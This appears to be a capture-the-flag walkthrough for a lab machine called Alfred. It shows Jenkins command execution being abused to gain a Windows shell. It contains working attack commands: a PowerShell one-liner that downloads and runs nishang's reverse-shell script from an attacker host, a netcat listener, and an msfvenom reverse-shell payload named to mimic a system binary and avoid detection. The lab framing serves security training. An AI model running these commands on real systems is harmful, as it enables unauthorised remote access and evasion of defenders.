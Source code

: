 So it looks like Jenkins executes the commands as system but has access to a user (alfred/bruce) if we were to get a shell. Let's check and see if we can use powershell. We're in luck, the cmd can launch powershell. Let's use [nishang](https://github.com/samratashok/nishang) and transfer Invoke-PowerShellTcp.ps1 to the server using Jenkins and a HTTP server. We will want to launch a netcat listener before we do this, to pickup the shell.

* Move the terminals location to the directory containing Invoke-PowerShellTcp.ps1 and start the server (I made one for this room named Alfred).

```
python3 -m http.server
```

* Start netcat listener on port 4444 using rlwrap so that we can use the arrow keys to move around in the terminal once we get a shell.

```
rlwrap nc -lvnp 4444
```

* Update and build the powershell command in Jenkins to transfer the Invoke-PowerShellTcp.ps1 from the server to the target and execute the script.

```ps
powershell iex (New-Object Net.WebClient).DownloadString('http://Tun0-IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress Tun0-IP -Port 4444
```

WIN!

```
rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [Tun0-IP] from (UNKNOWN) [10.10.27.251] 49355
```
```ps
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>systeminfo
```

**3) What is the user.txt flag?**

Now, we can begin looking for the user.txt flag! Start by checking desktop and documents. Then use type user.txt to read the file in powershell.

## Task 2: Switching Shells

Now it's time to try and escalate our privileges. First, lets get an improved shell on the device. We are going to use msfvenom to create a reverse shell payload. We should encode it and name it similarly to a legitimate binary service to avoid detection.

```
msfvenom -p windows/shell_reverse_tcp LHOST=Tun0-IP LPORT=5555 -e x86/shikata_ga_nai -f exe -o svchosts.exe  
```

**1) What is the final size of the exe payload that you generated?**
